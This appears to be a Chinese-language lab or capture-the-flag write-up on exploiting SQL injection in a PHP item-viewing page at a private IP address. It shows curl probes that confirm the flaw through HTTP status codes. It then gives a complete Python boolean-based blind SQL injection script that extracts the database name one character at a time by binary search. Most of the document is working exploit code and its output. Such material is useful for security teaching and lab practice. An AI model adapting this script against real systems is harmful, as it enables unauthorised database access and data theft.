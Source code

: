  
 > 接下来的sql注入结果主要看返回状态码
```shell
$ curl "http://172.16.1.65/item/viewItem.php?id=1" -v
# 响应状态码 404
 
$ curl "http://172.16.1.65/item/viewItem.php?id=-1" -v
# 响应状态码 302
 
$ curl "http://172.16.1.65/item/viewItem.php?id=-1+or+1=1" -v
# 响应状态码 404
 
$ curl "http://172.16.1.65/item/viewItem.php?id=-1+or+1=2" -v
# 响应状态码 404
```
> 经过测试验证，SQL 注入无疑
> 接下使用slqmap 或者写脚本

# sql-injection-python-script
```python
import requests
import binascii

host = '172.16.1.65'
target = f'http://{host}/item/viewItem.php?id='
headers = {"Content-Type": "application/x-www-form-urlencoded"}

def exp(pay):
    r = '' 
    for i in range(1,100):
        low = 32
        high = 127
        mid = (low + high) // 2
        while(low < high):

            payload = f'20+or+ascii(substr(({pay}),{i},1))>{mid}'

            url = target + payload
            #print(url)
			#v1 = requests.get(url=url,headers=headers,proxies={'http':'http://127.0.0.1:8080'},allow_redirects=False)
            v1 = requests.get(url=url,headers=headers,allow_redirects=False)
			

            if (v1.status_code==404):
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
        if mid == 32 or mid == 127:
            break
        r += chr(mid)
        print(r)
    return r


pay = 'database()'
exp(pay)
# 查看当前数据库
# 结果：hackshop


```